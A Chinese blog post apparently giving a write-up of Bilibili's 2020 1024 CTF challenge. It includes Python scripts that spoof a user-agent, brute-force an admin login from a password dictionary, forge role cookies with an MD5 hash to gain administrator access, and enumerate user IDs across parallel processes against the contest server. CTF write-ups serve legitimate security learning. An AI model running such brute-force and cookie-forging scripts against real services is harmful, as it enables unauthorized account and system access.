


<!--yml
category: 未分类
date: 2022-04-26 14:30:26
-->

# 哔哩哔哩1024安全挑战赛 Bilibili CTF题解(含代码)_一口快乐水的博客-CSDN博客

> 来源：[https://blog.csdn.net/u013560932/article/details/109276846](https://blog.csdn.net/u013560932/article/details/109276846)

# 题解

> 2020-10-25
> Bilibili在1024节上线了一个CTF挑战赛，非常amazing啊，虽然前面几题还是很简单的，不过大佬太多了，服务器都已经被扫爆了，redis也连不上去，在我做题的时候甚至各种资源文件都已经不存在了，真是诸神混战，活生生把单机打成了联网，我都怀疑是不是有人故意删了资源文件，故意暴力扫描，让后面的人没法做题，拿不到奖品。

## 第一题

没啥好说的，查看源码，input里面的value就是flag


## 第二题


更改UA为bilibili Security Browser发送请求
附py3代码，后续的所有题解都基于这个代码改就行了
注意cookie，没有这个东西你咋发请求都不包含登录态，response都是请先登录的错误

```
import requests
import json
import time
from multiprocessing import Process

if __name__ == '__main__':
    url = 'http://45.113.201.36/api/ctf/2'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'bilibili Security Browser','cookie':'复制浏览器2请求的cookie到这里，里面有包含你登录态的session'}
    seesion = requests.session()

    res = seesion.get(url, headers=headers, verify=False)
    print(res.text)
    try:
        res = json.loads(res.text)
        if res['code'] != '403':
            print('login secceed...',uid,res)
    except:
        print(res.text) 
```

## 第三题



这时我们发现第三题的请求是http://45.113.201.36/api/ctf/3
第二题是ctf/2,所以明显是有规律的，不过有的是get方法，有的是post方法，方法不对会返回Method is invalid错误。
第三题简单盲注发现没什么效果，那就直接脚本暴力把，反正第二题把脚本也写好了,加个后台字典，改一改就能用
我这里的代码读的字典是username,password格式的，其他格式的自己要改解析方式
拼一拼参数就好了
最后破解出来是admin,bilibili

```
import requests
import json
import time
from multiprocessing import Process
if __name__ == '__main__':
    url = 'http://45.113.201.36/api/ctf/3'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'复制浏览器3请求的cookie到这里，里面有包含你登录态的session'}
    seesion = requests.session()
    with open('dict.txt', 'r') as f:
    	while 1:
    		lines = f.readlines(100000)
    		if not lines:
        		break
    		for line in lines:
		        user,pwd = line.split(',')
		        pwd=pwd.replace('\n','')
		        data = {'username':user,'passwd':pwd}
		        body = json.dumps(data)
		        res = seesion.post(url, body, headers=headers, verify=False)
		        res = json.loads(res.text)
		        if res['code'] != 406:
		            print('login secceed...',data)
		            break
		        print(res) 
```

## 第四题


这道题就是改cookie了，有点难猜，超级管理员是Administrator
cookie里把role改成Administrator的md5 32位密文发送请求就可以了
代码还是上面的代码，headers里的cookie内容改一下，url改一下，请求就得到flag了

```
 headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'session=你自己的session;role=7b7bc2512ee1fedcd76bdc68926d4f7b;user=7b7bc2512ee1fedcd76bdc68926d4f7b'} 
```

## 第五题

这题也没什么好说的，看源码，让我们猜uid,没什么提示，只有一个uid默认值，请求是get请求，拼上get请求的urlParam，暴力就行了
不知道范围多大，我们直接开个多进程跑把，还是上面的代码，改一改
跑完发现实际没多大，基于默认值uid一会就跑出来了，看来出题人也怕自己的qps顶不住啊
跑出来的uid是100336915
对应的res.text里有data，里面就是flag了

```
import requests
import json
import time
from multiprocessing import Process

def func(name, left, right):
    url = 'http://45.113.201.36/api/ctf/5'
    headers = {'content-type': 'application/json;charset=UTF-8','User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36',
    'cookie':'session=你的session;role=7b7bc2512ee1fedcd76bdc68926d4f7b'}
    seesion = requests.session()
    for i in range(left,right):
        uid = i
        res = seesion.get(url+'?uid={0}'.format(uid), headers=headers, verify=False)
        print(uid)
        try:
            res = json.loads(res.text)
            if res['code'] != '403':
                print('login secceed...',uid,res)
                with open('answer.txt','w') as fw:
                    fw.write(str(uid))
                    fw.write('\n')
        except:
            print(res.text)
            with open('error.txt','w') as fw:
                fw.write(str(res.text))
                fw.write('\n')

if __name__ == '__main__':
    processlist = []
    for i in range(0,10):
        left = 100336889 + i*1000
        right = 100336889 + (i+1)*1000
        p = Process(target=func, args=("进程{0}".format(i),), kwargs={"left": left, "right": right})
        processlist.append(p)
    for i in processlist:
        i.start() 
```

## 第六题

资源全部404，我来晚了，已经被人搞挂了

## 第七题

连不上，艹

## 第八题

redis，连不上，同被人扫非常不稳定

## 第九题

同上

## 第十题

php注入，还没做